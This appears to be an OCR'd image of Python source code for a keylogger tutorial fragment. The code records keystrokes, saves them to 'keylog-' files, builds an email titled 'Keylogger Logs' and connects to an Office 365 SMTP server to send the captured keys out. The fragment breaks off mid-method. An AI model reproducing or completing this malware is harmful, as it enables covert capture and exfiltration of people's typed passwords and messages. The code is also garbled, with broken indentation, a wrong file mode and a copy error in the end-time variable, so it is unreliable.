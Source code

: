         self.log += name

    def update_filename(self):

        """Construct the filename needed to be identified by the start and end times."""

    start_dt_str = str(self.start_dt)[:-7].replace(" ", "_").replace(":", "")
    end_dt_str = str(self.start_dt)[:-7].replace(" ", "_").replace(":", "")
    self.filename = f"keylog-{start_dt_str}_{end_dt_str}"

    def report_to_file(self):

        """This method creates a log file in the current directory that contains the current
        key logs in the `self.log` variable"""

        """Opens the file in 'Write' mode (you'll need to create this)."""

        with open(f"{self.filename}.txt", "W", ) as f:

            """Writes the key logs to the file."""

            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")

        def prepare_mail(self, message):

            """Utility function to construct a MIMEMultipart from a text.
            It creates an HTML version of the file, along with the text file,
            of which is as an email."""

            msg = MIMEMultipart("alternative")
            msg["From"] = EMAIL_ADDRESS
            msg["To"] = EMAIL_ADDRESS
            msg["Subject"] = "Keylogger Logs"

            """This was a simple paragraph, so, please feel free to edit."""

            html = f"<p>{message}</p>"
            text_part = MIMEText(message, "plain")
            html_part = MIMEText(html, "html")
            msg.attach(text_part)
            msg.attach(html_part)

            """After typing out the mail, the script will convert back anything in the log as a
                string message."""

            return msg.as_string()

        def sendmail(self, email, password, message, verbose=1):

            """This manages a connection to an SMTP Server, in our case though, it is for
            Microsoft 365, Outlook, Hotmail, and live.com."""

            server = smtplib.SMTP(host="smtp.office365.com", port=587)

            """We will connect the SMTP server as TLS mode for security reasons."""

            server.starttls()

            """The script will login to the email address you have provided."""
